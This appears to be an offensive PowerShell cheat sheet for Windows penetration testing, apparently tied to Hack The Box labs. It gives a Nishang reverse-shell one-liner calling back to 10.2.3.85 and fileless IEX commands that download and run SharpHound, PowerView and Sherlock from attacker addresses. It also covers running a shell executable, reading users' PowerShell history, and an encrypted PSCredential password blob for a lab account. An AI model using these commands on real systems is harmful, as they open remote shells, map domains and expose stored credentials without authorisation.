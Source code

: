 ## Nishang Shell (Running PS1 without saving to disk)
```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.2.3.85/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.2.3.85 -Port 443
```

## Fileless (Running PS1 without saving to disk)
```
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.4/SharpHound.ps1')
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.4/PowerView.ps1')
```

## Fileless (Run and Execute)
```
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.19:8000/Sherlock.ps1') | powershell -noprofile - 
```

## Running Executable
```
c:\> start-process shell.exe
c:\> .\shell.exe
```

## Searching for files names with PowerShell
```
Get-Childitem –Path C:\ -Include *search-string* -File -Recurse
```

 ## Decoding Base64
 ```
 $string = "some-base64 aksdjklasd=="
 [System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($string))
  ```

## Reading Users PowerShell History
```
%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

## Decoding .PSCredential

[url] https://mcpmag.com/articles/2017/07/20/save-and-read-sensitive-data-with-powershell.aspx

```
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">HTB\Tom</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
    </Props>
  </Obj>
</Objs>

```